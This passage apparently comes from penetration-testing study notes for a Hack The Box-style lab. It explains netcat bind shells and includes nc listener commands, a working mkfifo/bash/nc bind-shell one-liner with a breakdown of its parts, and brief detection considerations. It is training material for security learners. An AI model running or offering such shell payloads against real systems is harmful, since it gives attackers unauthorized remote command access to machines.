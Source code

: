 **Step 3: Server - Connection received**
```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

**Step 4: Test Communication**
```bash
# Client side
kabaneridev@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy

# Server side
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

### Establishing a Basic Bind Shell with Netcat

The above example only creates a TCP session for text communication. For a real bind shell, we need to serve the system shell:

**Server - Binding a Bash shell to the TCP session**
```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

**Client - Connecting to bind shell on target**
```bash
kabaneridev@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$
```

#### Payload Breakdown

The bind shell payload consists of:
- `rm -f /tmp/f`: Remove existing named pipe
- `mkfifo /tmp/f`: Create named pipe (FIFO)
- `cat /tmp/f | /bin/bash -i 2>&1`: Read from pipe and execute in bash with interactive mode
- `nc -l 10.129.41.200 7777 > /tmp/f`: Listen on port and redirect output to pipe

### Security Considerations

Bind shells are easier to defend against because:
- Incoming connections are more likely to be detected
- Firewalls typically block incoming connections
- Standard ports don't help much with incoming traffic
- Detection systems monitor for unusual listeners

## Reverse Shells
